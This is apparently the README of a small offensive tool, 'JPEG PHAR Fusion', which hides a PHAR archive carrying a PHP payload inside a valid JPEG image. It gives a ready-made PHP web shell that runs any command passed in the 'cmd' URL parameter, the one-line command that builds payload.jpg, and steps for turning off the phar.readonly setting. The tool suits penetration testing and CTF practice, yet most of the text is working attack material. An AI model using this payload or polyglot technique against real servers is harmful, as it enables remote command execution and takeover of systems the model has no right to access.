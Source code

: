 # JPEG PHAR Fusion

This is a simple tool to add a phar payload at the end of a valid jpeg image.

## Requierments
- Python 3
- Php (Tested with php 8)

## Usage

2. Choose a php payload finishing by `__HALT_COMPILER();` for example :

`<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>`

3. Create the payload with the script

`python3 phar_creator.py '<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>'`

4. The file is in `payload.jpg`

5. Run "php include.php" to see the code executed!!



## It doesn't work 😡
Do you have the error 
> PHP Fatal error:  Uncaught UnexpectedValueException: creating archive "payload.phar" disabled by the php.ini setting phar.readonly

You need to enable the phar creation in php.ini

To locate your php.ini 

`php --ini`

Then edit this line in your file

`;phar.readonly = Off`

into

`phar.readonly = Off`
